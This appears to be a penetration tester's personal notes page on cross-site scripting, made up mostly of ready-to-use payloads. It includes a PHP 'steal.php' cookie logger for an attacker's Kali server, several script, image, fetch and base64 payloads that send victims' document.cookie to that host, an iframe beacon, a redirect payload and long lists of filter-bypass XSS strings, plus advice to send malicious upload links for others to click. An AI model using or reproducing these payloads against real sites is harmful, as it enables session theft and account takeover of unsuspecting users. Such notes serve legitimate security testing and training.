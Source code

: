 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Payload all the things resource:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
```

#### Test for XSS

Check if HttpOnly is disabled.

[[rlwrap]]

![[Pasted image 20220926131911.png]]

```
<img+src%3dhttp%3a//$KALI/x+/>>
```

![[Pasted image 20220926131833.png]]

#### steal.php

Save on to kali as `/var/www/html/steal.php`
```php - kali
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fn="log.txt";
$fh=fopen($fn,'a');
$cookie=$_GET['q'];
fwrite($fh, $ip.' '.$browser. ' '.$cookie. " \n");
fclose($fh);
echo "Thanks for your info" . $_POST['name'] . "!!!";
?>
```

```bash - kali
sudo chmod 777 /var/www/html/steal.php
```

```bash - kali
service apache2 start
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```html - target
<script>var i=new Image();i.src="http://$KALI/steal.php?q="+document.cookie;</script>
```

now just view the log:
```firefox
127.0.0.1/log.txt
```

Can also be used in file uploads if it allows! Try finding uploaded URL and send that link out for others to click!

#### Base64 encode

The btoa() function is used to encode the cookies as base64 and then append it to the IP address. URL encode this payload and repeat the request.

[[rlwrap]]

```
<img src=x onerror=this.src='http://$KALI/?cookies='+btoa(document.cookie)
/>
```

Now decode the base64 value.  Remember `%3D` is `=`.

#### New Awesome payload
Replaces `<script>alert(1)</script>`

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

#### Basic payloads
```html
<script>alert('XSS')</script>
```

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

```html
"><script>alert('XSS')</script>
```

```html
"><script>alert(String.fromCharCode(88,83,83))</script>
```

```html
<script>\u0061lert('22')</script>
```

```html
<script>eval('\x61lert(\'33\')')</script>
```

```html
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
```

```html
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```

#### Img payloads
```html
<img src=x onerror=alert('XSS');>
```

```html
<img src=x onerror=alert('XSS')//
```

```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```

```html
"><img src=x onerror=alert('XSS');>
```

```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

Svg payloads
```html
<svgonload=alert(1)>
```

```html
<svg/onload=alert('XSS')>
```

```html
<svg onload=alert(1)//
```

```html
<svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
<svg id=alert(1) onload=eval(id)>
```

```html
"><svg/onload=alert(String.fromCharCode(88,83,83))>
```

```html
"><svg/onload=alert(/XSS/)
```

```html
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```

```html
<svg><script>alert('33')
```

```html
<svg><script>alert&lpar;'33'&rpar;
```

// Div payload
```html
<div onpointerover="alert(45)">MOVE HERE</div>
```

```html
<div onpointerdown="alert(45)">MOVE HERE</div>
```

```html
<div onpointerenter="alert(45)">MOVE HERE</div>
```

```html
<div onpointerleave="alert(45)">MOVE HERE</div>
```

```html
<div onpointermove="alert(45)">MOVE HERE</div>
```

```html
<div onpointerout="alert(45)">MOVE HERE</div>
```

```html
<div onpointerup="alert(45)">MOVE HERE</div>
```


#### Example 1
- Something reflected on page?
	- `?default=English` : XSS
	- Test by changing value : `?default=AAAAA`
	- Inspect page:
	![[Pasted image 20220902124919.png]]

From the image above, we see we need to close out the option value  (`'>`), the options tag (`</option>`), and the select tag (`</select>`).  Then, create a h1 tag to test reflection on page.  Should see big bold TEST on page.

?default=
```html
'></option></select><h1>TEST</h1>
```

Next, try introducing script tag:
```html
'></option></select><script>alert('XSS')</script>
```

Using this to redirect user to other website:
```html
'></option></select><script>document.location.href="http://$KALI"</script>
```

If script tag is being filtered:
```html
'></option></select><img src=x onerror="alert('XSS')"/>
```

If there is an input box that reflects to page:
`<h1>Test</h1>`
![[Pasted image 20220902130252.png]]
`<script>alert('XSS')</script>`
If does not work, try bypass methods (`<SCRIPT>`, or `<SCRSCRIPTIPT>`)

XSS Filter bypass URL Encoding:
The "/" character is being filtered below:
![[Pasted image 20220905132535.png]]

`encodeURIComponent("<h1>Test</h1>");`
![[Pasted image 20220905132518.png]]

Testing input boxes:
![[Pasted image 20220902130624.png]]
![[Pasted image 20220902130644.png]]

Once found, set up listener and input script tag to steal cookies:
[[rlwrap]]
```html
<script>fetch('http://$KALI:80/'+document.cookie); /script>
```

Just modify cookie value in browser for win.

#### iframe test

[[rlwrap]]

```html
<iframe src=http://$KALI/report height="0" width="0"></iframe>
```

When a user connects to the page, we will receive there browser details:

![[Pasted image 20220505155251.png]]

#### Stealing Cookies and Session Information
[[rlwrap]]

```html
<script>new Image().src="http://$KALI/cool.jpg?output="+document.cookie;</script>
```

